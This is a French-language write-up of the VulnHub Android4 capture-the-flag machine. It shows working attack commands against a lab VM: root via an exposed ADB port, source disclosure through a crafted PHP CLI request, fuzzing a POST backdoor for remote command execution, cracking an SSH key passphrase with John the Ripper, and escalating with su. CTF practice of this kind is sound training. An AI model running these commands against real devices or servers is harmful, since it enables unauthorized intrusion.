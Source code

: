 ```yaml
---
title: "Solution du CTF Android4 de VulnHub"
tags: [CTF,VulnHub]
---
```


Le CTF [Android4](https://vulnhub.com/entry/android4-1,233/) offrait deux chemins pour parvenir au compte root.

La première (et la plus simple) consiste à faire ce que ferait sans doute un développeur Android.

La seconde requiert un chemin plus classique d'énumération, mais il est plombé par une caractéristique du serveur web utilisé.

## Kansas City Shuffle

Une fois la VM mise en place, on peut voir dans la fenêtre VirtualBox un écran qui demande un PIN, comme sur un smartphone.

J'ai lancé un scan Nmap mais comme il prenait beaucoup de temps j'ai fait une simple recherche sur _Android_ dans _HackTricks_ et j'ai trouvé ce que je cherchais :

[5555 - Android Debug Bridge](https://book.hacktricks.xyz/network-services-pentesting/5555-android-debug-bridge)

Ce port est celui qui permet la communication avec la commande `adb`.

Sur mon système j'ai installé le paquet `android-tools` puis j'ai suivi la procédure décrite sur HackTricks :

```console
$ adb connect 192.168.56.231
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.56.231:5555
$ adb root
restarting adbd as root
$ adb shell
uid=0(root) gid=0(root)@x86:/ # id
uid=0(root) gid=0(root)
uid=0(root) gid=0(root)@x86:/ # cd data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
ANDROID{u_GOT_root_buddy}
```

## La version "Oui, mais j'vois pas comment"

Finalement le scan de ports a terminé :

```
Nmap scan report for 192.168.56.231
Host is up (0.00033s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
5555/tcp  open  freeciv?
8080/tcp  open  http     PHP cli server 5.5 or later
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
22000/tcp open  ssh      Dropbear sshd 2014.66 (protocol 2.0)
|_vulners: ERROR: Script execution failed (use -d to debug)
```

On a cette page sur le port 8080 :

```html
<html>
  <head>
    <title>Deface by Good Hackers</title>
  </head>
  <body bgcolor=white>

    <table border="0" cellpadding="10">
      <tr>
        <td>
          <h1>Good Hackers ? means</h1>
        </td>
	</tr><tr>
        <td>
          <h2>we drop here our backdoor for access </h2>
        </td>
      </tr>
    </table>

    <p>If you r Smart Dan find Backdoor access...and safe your machine</p>
    <p>we like POST things only.</p>
  </body>
</html>
```

On peut énumérer (très très) longuement et on ne trouvera pas grand-chose de plus :

```
200        1l        3w       13c http://192.168.56.231:8080/.htaccess
200        1l        3w        0c http://192.168.56.231:8080/backdoor.php
```

Vu que `PHP cli` est derrière ce port, on peut se servir de la faille de divulgation du code source :  

```console
echo -e "GET /backdoor.php HTTP/1.1\r\nHost: pd.research\r\n\r\nGET /xyz.xyz HTTP/1.1\r\n\r\n" | ncat 192.168.56.231 8080 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.231:8080.
HTTP/1.1 200 OK
Host: pd.research
Date: Tue, 06 Jun 2023 09:39:24 +0300
Connection: close
Content-Type: chemical/x-xyz
Content-Length: 18

echo "fake Door";
Ncat: 75 bytes sent, 164 bytes received in 0.92 seconds.
```

Ok, c'est donc uniquement un troll.

Il y avait pourtant un dossier nommé `announce` dans la racine web (`/data/media/0/www/public`) que je pouvais voir via mon shell root précédent.

Malheureusement le comportement de `PHP cli` fait qu'on ne peut pas trouver via énumération les dossiers qui ne contiennent pas un fichier d'index : 

```console
$ curl -s -I http://192.168.56.231:8080/announce | head -1
HTTP/1.1 404 Not Found
$ curl -s -I http://192.168.56.231:8080/announce/ | head -1
HTTP/1.1 404 Not Found
$ curl -s -I http://192.168.56.231:8080/announce/backdoor.php | head -1
HTTP/1.1 200 OK
```

Supposons qu'on avait un moyen de trouver ce dossier `announce`, on aurait alors trouvé le second script `backdoor.php` qui est plus bavard :

> Warning: system(): Cannot execute a blank command in /storage/emulated/0/www/public/announce/backdoor.php on line 1

On aurait brute forcé les paramètres en POST :

```console
$ ffuf -u "http://192.168.56.231:8080/announce/backdoor.php" -w wordlists/common_query_parameter_names.txt -X POST -d "FUZZ=id" -H "Content-type: application/x-www-form-urlencoded" -t 5 -fs 1376

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.231:8080/announce/backdoor.php
 :: Wordlist         : FUZZ: wordlists/common_query_parameter_names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=id
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 5
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 1376
________________________________________________

secret                  [Status: 200, Size: 115, Words: 3, Lines: 2]
```

Et on aurait obtenu notre RCE :

```console
curl -s -XPOST -d "secret=id" http://192.168.56.231:8080/announce/backdoor.php
uid=10070(u0_a70) gid=10070(u0_a70) groups=1015(sdcard_rw),1023(media_rw),1028(sdcard_r),3003(inet),50070(all_a70)
```

En fouillant un peu on aurait trouvé un dossier secret :

```console
curl -s -XPOST -d "secret=ls+-al+.." http://192.168.56.231:8080/announce/backdoor.php
-rw-rw---- root     sdcard_r       13 2017-12-10 20:06 .htaccess
drwxrwx--- root     sdcard_r          2018-04-04 00:29 announce
-rw-rw---- root     sdcard_r       18 2018-04-04 13:50 backdoor.php
drwxrwx--- root     sdcard_r          2018-04-04 18:38 backup
drwxrwx--- root     sdcard_r          2018-04-04 18:37 hello
-rw-rw---- root     sdcard_r      461 2018-04-04 13:50 index.html
drwxrwx--- root     sdcard_r          2018-04-04 00:31 secret22000
```

Et via `JtR` on aurait cassé la passphrase de la clé SSH `touhid.key` présente dans `secret22000`.

```console
$ john --wordlist=wordlists/rockyou.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
qwerty           (/tmp/touhid.key)     
Session completed.
```

On aurait alors un shell interactif :

```console
$ ssh -p 22000 -i touhid.key -o PubkeyAcceptedKeyTypes=ssh-rsa root@192.168.56.231
Enter passphrase for key 'touhid.key': 
user@x86:/storage/emulated/legacy/ssh $ id
uid=10068(u0_a68) gid=10068(u0_a68) groups=1015(sdcard_rw),1023(media_rw),1028(sdcard_r),3003(inet),50068(all_a68)
```

Et on serait passé root, sans mot de passe (je suppose que c'est le comportement par défaut d'Android) : 

```console
user@x86:/ $ su                                                                                                                                                                                                  
uid=0(root) gid=0(root)@x86:/ # id
uid=0(root) gid=0(root)
```
